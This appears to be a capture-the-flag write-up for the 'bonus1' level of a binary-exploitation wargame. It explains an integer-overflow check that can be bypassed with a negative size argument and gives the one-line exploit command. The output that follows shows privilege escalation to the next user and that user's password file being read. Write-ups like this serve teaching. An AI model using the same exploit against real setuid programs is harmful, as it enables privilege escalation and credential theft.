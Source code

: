 # bonus1

## Header

```bash
ssh bonus1@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

<hr>

## Solution

Multiplication to any number that power of 2 is just binary left shifting to log2(number) bits.

Let's look at this proof:

Source:
```c
#include <stdio.h>
#include <math.h>

int main()
{
    const int m = 4;
    int i = -2147483648 + 11;
    printf("%zu\n", (size_t)i * m);
    printf("%zu\n", (size_t)(i << (int)log2(m)));
    return 0;
}
```

Output:
```bash
bonus1@RainFall:/tmp$ gcc -std=c99 -o check src.c -lm
bonus1@RainFall:/tmp$ ./check
44
44
```


https://www.rapidtables.com/convert/number/binary-to-decimal.html

https://www.calculator.net/binary-calculator.html

./bonus1 "-2147483637" $(python -c 'print "\x57\x4f\x4c\x46"[::-1] * 11')

```bash
$ whoami
bonus2
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ pwd
/home/user/bonus1
$ cd ../bonus2
$ ls -la
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## References

https://stackoverflow.com/questions/37239885/what-is-leal-edx-edx-4-eax-means